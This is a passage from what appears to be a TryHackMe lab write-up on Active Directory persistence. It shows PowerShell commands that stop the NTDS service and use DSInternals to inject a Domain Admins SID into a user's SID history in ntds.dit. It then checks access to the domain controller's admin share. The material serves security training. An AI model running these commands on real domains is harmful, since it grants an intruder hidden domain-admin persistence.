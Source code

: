 	* Restart service ntds and use the DSInternals tools to directly patch the ntds.dit file
	
		```
		Stop-Service -Name ntds -force
		
		Add-ADDBSidHistory -SamAccountName louis.cole -SidHistory S-1-5-21-3885271727-2693558621-2658995185-512 -DatabasePath C:\Windows\NTDS\ntds.dit
		
		Start-Service -Name ntds
		```

		![task5-restart](./images/task5-restart.png)

	* Check SID history on user account
	
		```
		Get-ADUser louis.cole -Properties sidhistory 

		dir \\thmdc.za.tryhackme.loc\c$
		```

		![task5-confirm](./images/task5-confirm.png)

